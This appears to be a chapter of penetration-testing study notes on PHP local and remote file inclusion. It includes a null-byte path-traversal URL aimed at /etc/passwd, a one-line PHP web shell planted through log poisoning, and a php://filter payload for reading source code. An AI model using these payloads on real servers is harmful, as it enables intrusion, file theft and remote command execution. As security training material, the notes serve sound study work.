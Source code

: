 # 7.2 File Inclusion Vulnerabilities

* These are seen in web applications which run using PHP and are poorly coded. It depends on PHP version and webserver configurations in php.ini such as:
  * Register global 
  * allow URL option
* To include either remote or local .php files into the URL wrapper and executing the scripts.

## 7.2.1 File Traversal vulnerability

* Step 0 : "http://192.168.1.1/site.php?page=firstpage". This means site is vulnerable to local file inclusion.
* Step 1 : http://192.168.1.1/site.php?page=..%2F.%2F.%2F.%2F.%2F.%2F.%2F.%2F.%2Fetc%2Fpasswd%00
* Step 2 : If we are able to perform this file traversal, that means we could perform local file inclusion.
* Step 3: Now we could proceed for remote file inclusion.

## 7.2.2 Remote File Inclusion

* Requirements
  * enable "allow\_url\_fopen"
  * enable "allow\_url\_include"
* Running .php from from client/attacker system in to the PHP server. 
* These are more harmful exploits. 

## 7.2.3 LFI enable and RFI disabled - Approach 1

* Given that the requirements are not met for RFI.
* We First somehow send malicious code to the victim machine. Here we have used the [log transfer method](../4.-file-transfer/#list-of-different-ways-for-transferring-a-file) in apache web server.
* We use a common method for ease of the RFI attack. As below:
  * We introduce a new variable in URL \("cmd"\). We fill the variable with our desired command that need to be executed.
  * Using RFI we tell the server to user this URL parameter and execute the text in "cmd" variable.
    * `<?php echo shell_exec($_GET['cmd']);?>`

![final exploit URL.](../.gitbook/assets/image%20%2834%29.png)

## 7.2.4 LFI enabled and RFI disabled - Approach 2

* We could use LFI + SQL injection here.

![](../.gitbook/assets/image%20%281%29.png)

## 7.2.3 Local File Inclusion

* No such requirements, these type of attacks occurs due to bad desgin on PHP website.
* Running .php file already present in the victim PHP server.

### 7.2.3.1 PHP LFI special case

* PHP wrappers and filter options to print contents of files present in webserver.
* /?page=php://filter/convert.base64-encode/resource=index
* This approach is used in scenarios like this:

> I came across a website where the site was vulnerable to LFI \(local file inclusion\) however the inclusion was done using a [require\_once](http://php.net/manual/en/function.require-once.php) and the script appended a .php extension to the end of the file; furthermore it was not vulnerable to null byte injection which meant that if I did include a file that:
>
> 1. The file would have to be valid PHP syntax
> 2. I would not be able to see anything contained between &lt;? ?&gt; tags
> 3. Anything I could include would be executed.
> 4. The file would have to end in the PHP extension

Ref : [https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

